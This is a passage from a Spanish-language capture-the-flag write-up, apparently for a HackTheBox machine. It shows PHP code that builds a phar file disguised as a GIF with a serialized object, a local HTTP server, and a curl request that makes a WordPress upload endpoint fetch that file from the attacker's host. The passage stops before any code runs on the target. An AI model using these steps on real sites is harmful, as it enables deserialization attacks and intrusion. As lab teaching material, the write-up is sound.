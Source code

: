 ~~~ php
// add object of any class as meta data  
$object = new Evil();  
$phar->setMetadata($object);  
$phar->stopBuffering();
~~~

Crearemos nuestro archivo `phar` ejecutando el archivo `evil.php`. Por defecto, PHP impide crear archivos `.phar` con permisos de escritura, es por eso que establecemos el valor en `0`

~~~ bash
php --define phar.readonly=0 evil.php  
strings evil.phar

GIF89a  
<?php __HALT_COMPILER(); ?>  
O:4:"Evil":0:{}  
test.txt  
text  
WJFP5  
GBMB
~~~

En este caso usaremos la función `__HALT_COMPILER()` para separar el contenido serializado, esto permitirá que se los datos se interpreten cuando usemos un wrapper `phar://`

> La palabra `GIF89a` es clave para que nuestro archivo sea procesado como un `GIF`
{: .notice--info}

Crearemos un servidor HTTP con `python3` en nuestra máquina atacante con el fin de servir el archivo `evil.phar` para que pueda ser consultado por la máquina víctima

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Ahora enviaremos la siguiente solicitud para enviar nuestra imagen falsa al servidor

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=http://10.10.15.9/evil.phar'

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1.png","attachment_id":161}# 
~~~

Podremos comprobar explorando el directorio `/uploads`

![[Pasted image 20250501174935.png]]

La solicitud se ha ejecutado correctamente, entonces habremos recibido una solicitud a nuestro archivo `evil.phar`

~~~ bash
python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [01/May/2025 14:25:04] "GET /evil.phar HTTP/1.1" 200 -
~~~
